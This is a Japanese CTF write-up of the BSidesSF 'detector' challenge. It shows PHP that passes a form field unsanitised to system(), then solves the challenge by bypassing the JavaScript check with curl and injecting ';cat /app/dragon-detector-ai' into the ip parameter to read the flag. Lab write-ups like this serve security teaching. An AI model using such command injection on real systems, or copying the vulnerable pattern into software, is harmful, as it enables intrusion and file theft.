

# detector

Try out our new dragon-tracking tool! But be careful with special characters - they cause weird problems so we added JavaScript to block them!

Flag Path: /app/dragon-detector-ai


https://detector-6ed78885.challenges.bsidessf.net/

アクセスすると以下のような画面



与えられたindex.phpとdetect-dragon.phpを見る

index.php
```
<script>
function validateIP() {
    const ipFormat = /^^(25[0-5]|2[0-4][0-9]|1[0-9]{2}|[1-9]?[0-9])\.(25[0-5]|2[0-4][0-9]|1[0-9]{2}|[1-9]?[0-9])\.(25[0-5]|2[0-4][0-9]|1[0-9]{2}|[1-9]?[0-9])\.(25[0-5]|2[0-4][0-9]|1[0-9]{2}|[1-9]?[0-9])$$/;
    const ip = document.getElementById('dragon-ip').value;
    
    if(!ip.match(ipFormat)) {
        alert('That IP smells of goblins! Try a real address!');
        return false;
    }
    document.getElementById('dragon-form').submit();
    return true;
}
</script>

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Dragon Detector</title>
  <link rel="stylesheet" href="style.css">
</head>
<body>
  <div class="container">
    <h1>🛡️ Dragon Detector 🐉</h1>
    <p class="subtitle">Enter an IP address to see if a dragon lives there!</p>
    <p>This uses state of the art copyrighted AI, and it's worth A LOT of money!!</p>
    <form id="dragon-form" action="detect-dragon.php" method="post" onsubmit="return validateIP();">
      <input type="text" id="dragon-ip" name="ip" placeholder="Enter IP address..." required>
      <button type="submit">Detect Dragon</button>
    </form>
    <div class="dragon-image">
      
    </div>
  </div>
</body>
</html>
```
- 普通にフォームから特殊文字入りのip=127.0.0.1;cat /flagとか送れない


detect-dragon.php
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dragon Detector</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <div class="container">
<?php
  $ip = $_REQUEST['ip'];

  echo "<h1>";
  system("bash /app/dragon-detector-ai $ip");
  echo "</h1>";

  echo '<br><a href="/">Check another IP</a>';
?>
    </div>
</body>
</html>
```

- ユーザー入力が直接コマンドとして実行される
- system() なので 標準出力がそのままブラウザに返る
- バリデーションもサニタイズも一切ナシ

## solution

JSバイパスしてPOST送る

```
$ curl -k -X POST https://detector-6ed78885.challenges.bsidessf.net/detect-dragon.php \
  -d "ip=127.0.0.1;cat /app/dragon-detector-ai"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dragon Detector</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <div class="container">
<h1>No dragons @ 127.0.0.1, just internet hamsters. 🐹
#!/bin/sh

# FLAG: CTF{tharr-be-draggggons}

# This doesn't actually do anything..... shhhh, they paid us a lot for us to
# call this AI
random_number=$(( $RANDOM % 100 ))

# Check if the random number is less than 10 (10% chance)
if [ $random_number -lt 10 ]; then
    echo "DRAGON DETECTED @ $1! 🐉"
else
    echo "No dragons @ $1, just internet hamsters. 🐹"
fi
</h1><br><a href="/">Check another IP</a>    </div>
</body>
</html>
```
## flag

`CTF{tharr-be-draggggons}`